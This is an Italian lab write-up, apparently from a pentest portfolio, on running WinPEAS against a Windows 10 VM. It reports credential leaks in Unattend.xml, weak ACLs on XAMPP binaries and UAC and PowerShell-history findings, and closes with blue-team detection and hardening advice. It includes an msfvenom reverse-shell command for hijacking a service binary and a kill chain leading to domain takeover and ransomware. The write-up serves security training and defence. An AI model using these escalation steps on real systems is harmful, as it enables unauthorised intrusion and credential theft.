




# Automated Post-Exploitation & Privilege Escalation: WinPEAS (Windows Local Enumeration)

> - **Fase:** System Exploitation - Privilege Escalation - Windows Automated Enumeration
> - **Visibilita:** Alta - WinPEAS genera un elevato numero di query WMI, accessi al registro e al filesystem in pochi secondi; pattern rilevabile da EDR con behavioral analysis come "automated recon tool"
> - **Prerequisiti:** Shell con utente standard sulla macchina Windows target (ottenuta tramite framework C2 o accesso diretto); `WinPEASx64.exe` trasferito sul target (via SMB, HTTP server, o copia diretta); cmd o PowerShell disponibile per l'esecuzione
> - **Output:** EXPLOIT-016 (credential disclosure in Unattend.xml - severity Critico); EXPLOIT-017 (weak ACL su binari XAMPP - severity Critico); EXPLOIT-018 (UAC network restriction disabilitata - severity Medio); EXPLOIT-019 (PowerShell history con credenziali - severity Alto)

- Ambiente Operativo: Windows 10 22H2 (Target VM)
- Vettore di Accesso Iniziale: Accesso non privilegiato tramite shell (Utente `nick`)
- Toolchain Utilizzata: WinPEASx64.exe (Windows Privilege Escalation Awesome Scripts)
- Obiettivo: Eseguire un'enumerazione locale massiva e silente per identificare misconfiguration di sistema, permessi deboli su file/cartelle e credenziali in chiaro dimenticate (Credential Hunting) al fine di scalare i privilegi a `NT AUTHORITY\SYSTEM`.

---

## Executive Summary

Il presente documento illustra i risultati di un'operazione di enumerazione automatizzata post-compromissione in ambiente Windows tramite l'impiego del tool WinPEAS. A differenza degli exploit a livello kernel (es. vulnerabilità dello spooler o driver), questo assessment si è concentrato sull'identificazione di falle logiche, errori di configurazione (Misconfigurations) e negligenze operative (OPSEC failures).

L'auditing ha rivelato due criticità di livello Alto/Critico: l'esposizione di credenziali amministrative all'interno di file di deployment di sistema (Sysprep/Unattend) e una gravissima configurazione errata dei permessi (Weak ACLs) sui binari di una suite software di terze parti (XAMPP), garantendo due percorsi distinti e garantiti per la compromissione totale dell'infrastruttura.

---

## Fase 1: Enumerazione Massiva (Execution)

Per condurre l'analisi, le difese in tempo reale (AMSI/Defender) sono state temporaneamente evase, permettendo l'esecuzione del binario `winPEASx64.exe` direttamente dal prompt dei comandi dell'utente compromesso. 

Il tool ha analizzato le policy di sicurezza, i token utente, i servizi di rete, i registri di sistema (HKLM/HKCU) e ha effettuato un parsing alla ricerca di keyword sensibili (password, pass, creds) all'interno dell'intero file system.

```cmd
C:\Users\nick\Desktop>winPEASx64.exe
Creating Dynamic lists, this could take a while, please wait...
- Loading sensitive_files yaml definitions file...
- Creating current user groups list...
```

---

## Fase 2: Triage delle Vulnerabilità (Risultati WinPEAS)

Dalla mole di dati generata, l'analista ha isolato e validato due vettori critici evidenziati dal sistema di alerting cromatico del tool (Rosso).

**ID Finding:** `EXPLOIT-016` | **Severity:** `Critico`

### Vettore 1: Credential Hunting (Unattended Installation Files)

Durante l'installazione massiva di macchine Windows negli ambienti aziendali, gli amministratori utilizzano tool come Sysprep, che leggono configurazioni da file XML (`unattend.xml` o `autounattend.xml`). Al termine del deployment, questi file dovrebbero essere distrutti.
WinPEAS ha individuato un residuo operativo nella cartella di sistema `Panther`:

```Plaintext
╔══════════╣ Unattend Files
╚ https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#files-and-registry-credentials
    C:\Windows\Panther\Unattend.xml
        <Password>*SENSITIVE*DATA*DELETED*</Password>
        <Enabled>true</Enabled>
        <Username>nick</Username>
    </AutoLogon>
    <UserAccounts>
        <AdministratorPassword>*SENSITIVE*DATA*DELETED*</AdministratorPassword>
```

Artifact 1: Estratto dell'output di WinPEAS che rileva la presenza di un file Unattend.xml popolato.



Impatto: Leggendo fisicamente questo file, un attaccante è in grado di recuperare le password (spesso codificate in semplice Base64, facilmente decodificabile) degli account utente e dell'Amministratore Locale, ottenendo privilegi massimi senza dover eseguire alcun codice malevolo.

**ID Finding:** `EXPLOIT-017` | **Severity:** `Critico`

### Vettore 2: Weak Service Binaries Permissions (XAMPP)

L'analisi delle ACL (Access Control List) sulle cartelle non standard ha rivelato un problema architetturale legato alla suite software XAMPP (Apache, MySQL, Tomcat).

```Plaintext
╔══════════╣ Searching executable files in non-default folders with write permissions
    File Permissions "C:\xampp\mysql\bin\mysqld.exe": Authenticated Users [Allow: WriteData/CreateFiles]
    File Permissions "C:\xampp\apache\bin\httpd.exe": Authenticated Users [Allow: WriteData/CreateFiles]
    File Permissions "C:\xampp\tomcat\bin\tomcat7.exe": Authenticated Users [Allow: WriteData/CreateFiles]
```

Artifact 2: Evidenza dei permessi deboli sugli eseguibili critici dei servizi di terze parti.



Impatto (Service Binary Hijacking): Come documentato, il gruppo `Authenticated Users` (che include qualsiasi utente che abbia fatto login, persino il meno privilegiato) possiede permessi di `WriteData/CreateFiles` su eseguibili critici.

Un attaccante può semplicemente rinominare `mysqld.exe` in `mysqld.bak`, generare un malware (Reverse Shell) tramite MSFvenom, nominarlo `mysqld.exe` e attendere. Al riavvio del server o del servizio, Windows eseguirà il malware come `NT AUTHORITY\SYSTEM`.

**ID Finding:** `EXPLOIT-018` | **Severity:** `Medio`

### Vettore 3: UAC Network Restrictions Disabled (Lateral Movement)

L'enumerazione delle chiavi di registro legate allo User Account Control (UAC) ha evidenziato una misconfiguration critica a livello di accesso di rete: `[*] LocalAccountTokenFilterPolicy set to 1. [+] Any local account can be used for lateral movement.`



Impatto: Questa configurazione (spesso impostata erroneamente dai sysadmin per facilitare l'amministrazione remota) disabilita il filtro UAC per i log-on di rete. Se un Threat Actor compromette un hash NTLM di un amministratore locale su una macchina adiacente, può eseguire attacchi di tipo Pass-the-Hash (PtH) verso questo server ottenendo direttamente una shell privilegiata (es. tramite `PsExec` o `CrackMapExec`), bypassando le restrizioni native di Windows.

**ID Finding:** `EXPLOIT-019` | **Severity:** `Alto`

### Vettore 4: PowerShell History (Information Disclosure)

La fase di enumerazione ha rilevato un file di cronologia di PowerShell (PSReadLine) popolato (circa 3.2 KB di storico comandi) per l'utente corrente: `C:\Users\nick\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`



Impatto: Essendo un utente del gruppo Administrators, è altamente probabile che all'interno di questo file di testo in chiaro siano registrati comandi operativi sensibili. I Threat Actor effettuano abitualmente il parsing di questo file (Living off the Land) per recuperare stringhe di connessione a database, token API, chiavi SSH o password passate come parametri a script amministrativi.

---

## Blue Team: Rilevamento e Contromisure (Detection Engineering)

La presenza di strumenti di enumerazione massiva e le relative misconfiguration identificate richiedono interventi immediati:

1. Hardening & Remediation (Priorità Alta)

- Pulizia Sysprep (Credential Management): Verificare ed eliminare i file di configurazione di installazione residui dalle directory `C:\Windows\Panther\`, `C:\Windows\System32\sysprep\` e `C:\unattend.xml`. Le password amministrative locali devono essere gestite centralmente, preferibilmente tramite implementazione di Microsoft LAPS (Local Administrator Password Solution), la cui assenza è stata evidenziata dal tool.
- Bonifica ACL su Third-Party Software: L'installazione di software fuori dalla directory `C:\Program Files\` (che è protetta nativamente da Windows) spesso eredita permessi errati dalla root `C:\`. È imperativo correggere le proprietà della cartella `C:\xampp\`, rimuovendo il permesso di "Controllo Completo" e "Scrittura" per il gruppo Users e Authenticated Users.

2. Detection (SOC & SIEM)

- Monitoraggio Esecuzione WinPEAS: WinPEAS e script affini (.bat, .ps1) producono pattern di esecuzione rumorosi. Implementare regole YARA/Sigma e alert EDR per rilevare:

    - L'avvio di un elevato numero di query WMI (`wmic.exe`, `gwmi`) e comandi `reg query` in un lasso di tempo ristretto (< 3 secondi).
    - Lettura anomala di directory critiche (es. accesso non autorizzato a `C:\Windows\Panther\Unattend.xml` da processi non di sistema).

---

## Tool di riferimento

| Tool | Tipo | Tecnica/Accesso | Caso d'uso principale |
| :--- | :--- | :--- | :--- |
| `WinPEAS` / `winPEASx64.exe` | Automated scanner | CLI - Attivo | Enumerazione completa PrivEsc Windows: credenziali, servizi, registry, UAC, CVE |
| `winPEASany.exe` | Variante universale | CLI - Attivo | Compatibile con x86 e x64, scelta per ambienti misti |
| `PowerUp.ps1` | PowerShell scanner | CLI - Attivo | Alternativa PowerShell a WinPEAS, focus su servizi e DLL hijacking |
| `Seatbelt` | .NET enum tool | CLI - Attivo | Enumerazione sicurezza Windows in .NET, usato in engagement professionali |
| `BeRoot.exe` | Python scanner | CLI - Attivo | Scanner per misconfiguration Windows (AlwaysInstallElevated, servizi) |
| `icacls` | Utility nativa | CLI nativa | Verifica permessi su file e directory, identifica weak permissions su binari servizi |
| `LAPS` | Password manager | GUI/GPO | Local Administrator Password Solution: password admin uniche per macchina (Blue Team) |

---

## Scenario Reale: Proiezione Post-Exploitation

> Questa sezione descrive come EXPLOIT-016 ed EXPLOIT-017 si inserirebbero in un engagement reale su una workstation o server Windows aziendale.

### Prospettiva Attaccante (Red Team)

**Punto di partenza:** shell con utente standard su Windows target; WinPEAS eseguito; EXPLOIT-016 (Unattend.xml) ed EXPLOIT-017 (XAMPP weak ACL) identificati come vettori di escalation immediata.

**Kill Chain proiettata:**
```
Shell utente standard (nick - Medium Integrity)
        |
        v
EXPLOIT-016: type C:\Windows\Panther\Unattend.xml -> credenziali Administrator in chiaro
    oppure
EXPLOIT-017: msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe > mysqld.exe
             -> sostituzione C:\xampp\mysql\bin\mysqld.exe -> riavvio servizio -> SYSTEM
        |
        v
EXPLOIT-019: type ConsoleHost_history.txt -> credenziali in chiaro di altri account
        |
        v
Mimikatz (con admin/SYSTEM) -> dump hash NTLM di tutti gli utenti in sessione
        |
        v
Pass-the-Hash / Kerberoasting -> movimento laterale verso Domain Controller
        |
        v
DCSync -> dump completo Active Directory -> Golden Ticket
        |
        v
Ransomware deployment via GPO -> cifratura di tutti gli host del dominio
```

**Impatto potenziale:** EXPLOIT-016 e il vettore piu critico: un attaccante con shell utente standard diventa amministratore in pochi secondi, senza exploitation complessa. Questo scenario e tra i piu comuni nelle compromissioni AD documentate da Mandiant e CrowdStrike nel 2024.

**Vettori di monetizzazione tipici:**
- Ransomware enterprise (LockBit 3.0, BlackCat): cifratura sistemi + riscatto 100.000-5.000.000 USD
- Double extortion: esfiltrazione dati sensibili + minaccia di pubblicazione
- Access Broker: rivendita foothold con privilegi admin su forum underground

### Prospettiva Difensore (Blue Team)

**Rilevamento:** WinPEAS genera centinaia di query al registro e accessi al filesystem in pochi secondi, pattern rilevabile come "automated recon" da EDR con behavioral analysis. La lettura di `Unattend.xml` da processo non sistema e un IOC ad alta priorita.

**Indicatori di Compromissione (IOC):**
- Processo: `winpeas.exe` o varianti eseguiti da percorsi non standard (Temp, Desktop, Downloads)
- Accesso: lettura di `C:\Windows\Panther\Unattend.xml` da processo utente non SYSTEM
- Accesso: lettura di `ConsoleHost_history.txt` da processo non PowerShell nativo
- File system: binari XAMPP modificati (timestamp recente, hash cambiato rispetto a baseline)

**Contenimento:** isolamento host; reset password account esposti in Unattend.xml e PS history; verifica creazione account backdoor (Event ID 4720); ripristino binari XAMPP da backup.

**Hardening strutturale:**
- Eliminare file Unattend.xml dopo il provisioning (`del C:\Windows\Panther\Unattend.xml`)
- Disabilitare PS history per utenti via GPO: `Set-PSReadLineOption -HistorySaveStyle SaveNothing`
- Correggere permessi XAMPP: `icacls "C:\xampp" /inheritance:d /grant:r "BUILTIN\Administrators:(F)"`
- Deployare Sysmon con regole per rilevare lettura di file sensibili (Unattend.xml)
- Implementare LAPS per password amministratore locale uniche per macchina

---

## Mappatura MITRE ATT&CK

| Tattica | Tecnica | ID MITRE | Descrizione dell'Azione |
|---------|---------|----------|-------------------------|
| Discovery | System Information Discovery | `T1082` | Uso di WinPEAS per enumerare massivamente stato del SO, patch, e configurazioni locali. |
| Credential Access | Unsecured Credentials: Credentials in Files | `T1552.001` | Identificazione e parsing di file Unattend.xml contenenti password di AutoLogon e Admin. |
| Privilege Escalation | Hijack Execution Flow: Executable Installer/Service | `T1574` | Identificazione della possibilità di sostituire eseguibili legittimi (es. XAMPP) a causa di permessi deboli (Weak ACL). |
| Discovery | File and Directory Discovery | `T1083` | Ricerca di file eseguibili con permessi di scrittura e scansione delle history dei browser/console. |

---

---

## Correlazioni con altri finding

I finding di WinPEAS sono il risultato finale di una catena che parte dalla ricognizione iniziale:

| Provenienza | Questo finding | Effetto |
| :--- | :--- | :--- |
| [SCAN-003](<../../../../01-recon (Red Team Basic)/02-network-scanning-active/port-scanning (Nmap)/nmap-scripts/README.md>) + [VULN-001](<../../../../02-vulnerability-assessment/01-general-scanners (Infrastructure)/nessus/README.md>) | EXPLOIT-018 - LocalAccountTokenFilterPolicy=1 | SMB Signing disabled abilita il relay; PtH possibile grazie alle credenziali trovate in EXPLOIT-016 |
| [EXPLOIT-001](<../../../01-frameworks/metasploit/README.md>) + [EXPLOIT-013](<../juicypotato-printnightmare/README.md>) | EXPLOIT-016 - Unattend.xml | initial access → shell → WinPEAS → credenziali Administrator in chiaro |
| EXPLOIT-016 - Unattend.xml password | EXPLOIT-018 - Pass-the-Hash | password Administrator trovata abilita PtH direttamente, senza cracking |
| EXPLOIT-017 - XAMPP ACL debole | Persistenza come SYSTEM | WriteData su eseguibile di servizio = sostituzione = persistenza permanente |
| EXPLOIT-019 - PSReadLine history | Credential reuse lateral | password in history riutilizzabili per RDP, SMB, WinRM senza ulteriori tecniche |

> **Nota:** Tutte le attivita documentate sono state condotte in un ambiente di laboratorio virtualizzato. L'utilizzo di WinPEAS e la scoperta delle vulnerabilita documentate sono avvenuti esclusivamente su una macchina virtuale Windows 10 di proprieta dell'autore. Nessuna tecnica e stata applicata a sistemi reali o di terze parti senza autorizzazione esplicita.